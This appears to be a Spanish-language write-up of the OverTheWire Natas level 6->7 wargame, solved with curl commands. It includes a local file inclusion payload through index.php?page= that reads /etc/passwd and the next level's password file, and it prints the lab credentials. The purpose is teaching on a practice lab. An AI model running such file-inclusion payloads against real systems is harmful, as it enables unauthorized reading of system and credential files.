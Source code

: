 ```yaml
---
title: OverTheWire - Natas 6 -> 7 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 6 -> 7 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas7
Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
URL:      http://natas7.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas6->7-1.png)

Observamos 2 links y un hint que nos indica donde se ubica la contraseña de natas8 en el servidor.

![](/images/images-otw-natas/natas6->7-2.png)

Si vamos a los links no vemos nada interesante.

![](/images/images-otw-natas/natas6->7-3.png)


Si sustituimos el valor `about` por el valor del archivo `/etc/passwd` confirmamos que `index.php` es vulnerable a **LFI**.

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/passwd'
```

![](/images/images-otw-natas/natas6->7-5.png)

Si ahora escribimos la ruta absoluta hacia la contraseña de natas8 `/etc/natas_webpass/natas8` obtenemos la contraseña.

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8'
```

![](/images/images-otw-natas/natas6->7-4.png)

# Contraseña
---

`DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

---

## [Anterior](/level-5-6)
## [Siguiente](/level-7-8)